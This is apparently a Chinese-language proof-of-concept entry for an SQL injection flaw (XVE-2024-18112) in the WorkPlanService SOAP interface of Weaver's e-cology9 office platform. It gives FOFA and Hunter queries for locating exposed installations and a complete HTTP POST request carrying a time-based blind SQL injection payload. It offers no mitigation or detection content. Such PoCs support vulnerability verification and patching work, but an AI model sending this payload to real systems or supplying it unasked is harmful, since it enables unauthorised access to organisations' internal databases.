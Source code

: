 # 泛微e-cology9接口WorkPlanService前台SQL注入漏洞(XVE-2024-18112)

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology9系统WorkPlanService前台存在SQL注入漏洞。

## fofa

```java
app="泛微-协同商务系统"
```

## hunter

```java
app.name=="泛微 e-cology 9.0 OA"
```

## poc

```yaml
POST /services/WorkPlanService HTTP/1.1
HOST: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: text/xml;charset=UTF-8
Connection: close
 
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.workplan.weaver.com.cn">
    <soapenv:Header/>
      <soapenv:Body>
      <web:deleteWorkPlan>
         <!--type: string-->
         <web:in0>(SELECT 8544 FROM (SELECT(SLEEP(5-(IF(27=27,0,5)))))NZeo)</web:in0>
         <!--type: int-->
         <web:in1>22</web:in1> 
      </web:deleteWorkPlan>
      </soapenv:Body>
</soapenv:Envelope>
```

![image-20240726172205428](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407261722628.png)
